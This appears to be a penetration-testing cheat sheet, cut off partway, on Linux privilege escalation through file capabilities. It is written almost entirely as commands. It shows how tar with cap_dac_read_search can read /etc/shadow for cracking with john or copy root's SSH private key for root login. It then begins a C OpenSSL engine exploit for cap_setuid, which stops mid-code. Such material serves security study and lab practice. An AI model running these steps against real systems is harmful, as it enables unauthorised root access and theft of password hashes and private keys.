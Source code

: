 Tar

Method 1
```
Victim

getcap -r / 2>/dev/null         
/usr/bin/tar = cap dac read search+ep
/usr/bin/tar -cvf shadow.tar /etc/shadow
/usr/bin/tar -xvf shadow.tar
cat etc/shadow
Copy content of users accounts to a local file called shadow

Attacker

john shadow --wordlist=/usr/share/wordlists/rockyou.txt
Crack root's credentials

Victim

su root
id && whoami
```
Method 2

```
Victim

getcap -r / 2>/dev/null         
/usr/bin/tar = cap dac read search+ep
/usr/bin/tar -cvf key.tar /root/.ssh/id_rsa
/usr/bin/tar -xvf key.tar
cat id_rsa
# Download id_rsa to attacker machine

Attacker

chmod 600 id_rsa
ssh -i id_rsa root@<victim_ip>
id && whoami

```

OpenSSL

Victim
```
getcap -r / 2>/dev/null         
/usr/bin/openssl = cap_setuid+ep
```

Attacker
Create a .so file - Code below
vi priv.c
```
#include <openssl/engine.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

static const char *engine_id = "test";
static const char *engine_name = "hope it works";

static int bind(ENGINE *e, const char *id)
{
  int ret = 0;
```